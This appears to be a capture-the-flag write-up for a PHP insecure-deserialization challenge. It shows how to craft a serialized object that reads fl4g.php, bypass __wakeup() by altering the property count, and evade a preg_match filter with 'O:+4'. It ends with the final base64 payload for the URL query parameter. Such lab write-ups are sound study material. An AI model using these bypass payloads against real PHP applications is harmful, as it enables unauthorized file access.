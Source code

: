 # Web_php_unserialize

![Screenshot from 2021-07-24 23-30-57](https://user-images.githubusercontent.com/87865134/126874978-4c16dc54-e4bb-4771-ae28-7d471f8ab6ff.png)

- **Hint:** flag in file fl4g.php
- **Workflow:**
  -  get value of `$_GET['var']`
  -  `base64_decode()`
  -  filter by `preg_match()`
  -  unserialize object

- **Payload need:**
  - `base64_encode()` 
  - bypass filter
  - bypass unserialize
  -
1. **Bypass unserialize**
  - Create object serialize:
  ```php
  $a = new Demo("fl4g.php");
  $ser = serialize($a);
  echo $ser;
  //result: O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";} 
  ```
  - Bypass `__wakeup()`:
  ```
  $ser = str_replace(':1:', ':2:', $ser);
  //O:4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}
  ```
2. **Bypass filter `preg_match()`**
  ```php
  $ser = str_replace('O:4', 'O:+4', $ser);
  //O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}
  ```
3. **Endcode base64**  
  `echo base64_encode($ser)`

4. **Get payload:** `TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==` 
5. **Submit payload with URL query parameter**

![Screenshot from 2021-07-24 23-42-14](https://user-images.githubusercontent.com/87865134/126875292-0f129544-1c46-4fd4-824e-b0bb1975676f.png)

- **Description:**
  - > category: Unsecure Deserialization
